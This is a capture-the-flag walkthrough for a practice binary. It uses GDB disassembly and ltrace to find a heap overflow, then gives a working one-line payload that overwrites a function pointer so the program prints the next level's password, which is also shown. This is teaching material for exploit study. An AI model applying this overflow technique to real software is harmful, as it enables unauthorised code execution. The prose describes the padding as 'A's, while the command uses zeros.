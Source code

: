 # Analysis of the Binary

Start by inspecting the functions in the program using GDB:

```bash
(gdb) info functions
[...]
0x08048454  n
0x08048468  m
0x0804847c  main
[...]
(gdb) disassemble main
Dump of assembler code for function main:
   0x0804847c <+0>:     push   %ebp
   0x0804847d <+1>:     mov    %esp,%ebp
   0x0804847f <+3>:     and    $0xfffffff0,%esp
   0x08048482 <+6>:     sub    $0x20,%esp
   0x08048485 <+9>:     movl   $0x40,(%esp)
   0x0804848c <+16>:    call   0x8048350 <malloc@plt>
   0x08048491 <+21>:    mov    %eax,0x1c(%esp)
   0x08048495 <+25>:    movl   $0x4,(%esp)
   0x0804849c <+32>:    call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:    mov    %eax,0x18(%esp)
   0x080484a5 <+41>:    mov    $0x8048468,%edx
   0x080484aa <+46>:    mov    0x18(%esp),%eax
   0x080484ae <+50>:    mov    %edx,(%eax)
   0x080484b0 <+52>:    mov    0xc(%ebp),%eax
   0x080484b3 <+55>:    add    $0x4,%eax
   0x080484b6 <+58>:    mov    (%eax),%eax
   0x080484b8 <+60>:    mov    %eax,%edx
   0x080484ba <+62>:    mov    0x1c(%esp),%eax
   0x080484be <+66>:    mov    %edx,0x4(%esp)
   0x080484c2 <+70>:    mov    %eax,(%esp)
   0x080484c5 <+73>:    call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:    mov    0x18(%esp),%eax
   0x080484ce <+82>:    mov    (%eax),%eax
   0x080484d0 <+84>:    call   *%eax
   0x080484d2 <+86>:    leave
   0x080484d3 <+87>:    ret
End of assembler dump.
(gdb) disassemble m
Dump of assembler code for function m:
   0x08048468 <+0>:     push   %ebp
   0x08048469 <+1>:     mov    %esp,%ebp
   0x0804846b <+3>:     sub    $0x18,%esp
   0x0804846e <+6>:     movl   $0x80485d1,(%esp)
   0x08048475 <+13>:    call   0x8048360 <puts@plt>
   0x0804847a <+18>:    leave
   0x0804847b <+19>:    ret
End of assembler dump.
(gdb) disassemble n
Dump of assembler code for function n:
   0x08048454 <+0>:     push   %ebp
   0x08048455 <+1>:     mov    %esp,%ebp
   0x08048457 <+3>:     sub    $0x18,%esp
   0x0804845a <+6>:     movl   $0x80485b0,(%esp)
   0x08048461 <+13>:    call   0x8048370 <system@plt>
   0x08048466 <+18>:    leave
   0x08048467 <+19>:    ret
End of assembler dump.
(gdb) x/s 0x80485b0
0x80485b0:       "/bin/cat /home/user/level7/.pass"
```

## Key Observations
- In `main`, two memory blocks are allocated. One block stores a function pointer, initially set to `m`, and is called later in the code.
- A `strcpy` call in `main` copies user input into the first block, which could potentially lead to a buffer overflow.
- The `n` function, when executed, reveals the desired password.

# Developing the Exploit

Our objective is to overflow the buffer in `main` to alter the function pointer from `m` to `n`.

## Determining the Buffer Overflow Size with ltrace

Use `ltrace` to understand the memory allocations and calculate the size needed for the overflow:

```bash
$ ltrace ./level6 test
__libc_start_main(0x804847c, 2, 0xbffff7e4, 0x80484e0, 0x8048550 <unfinished ...>
malloc(64)                                                                                      = 0x0804a008
malloc(4)                                                                                       = 0x0804a050
[...]
```

Based on the addresses returned by `malloc`, we calculate the overflow size:
- Address of first block: `0x0804a008`
- Address of function pointer block: `0x0804a050`
- Required overflow size: `0x0804a050 - 0x0804a008 = 0x48` (72 in decimal)

## Constructing the Payload

Formulate a payload that overflows the first memory block and overwrites the function pointer:

```bash
$ ./level6 `python -c 'print("0"*72 + "\x08\x04\x84\x54"[::-1])'`
```

This command does the following:
- Fills the first memory block with 72 'A's (`"A"*72`).
- Overwrites the function pointer with the address of `n` (`"\x54\x84\x04\x08"` in little-endian format).

## Executing the Exploit

Running the exploit changes the function call from `m` to `n`, thereby revealing the password:

```plaintext
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

The exploit successfully diverts the execution flow and accesses the next level's password.
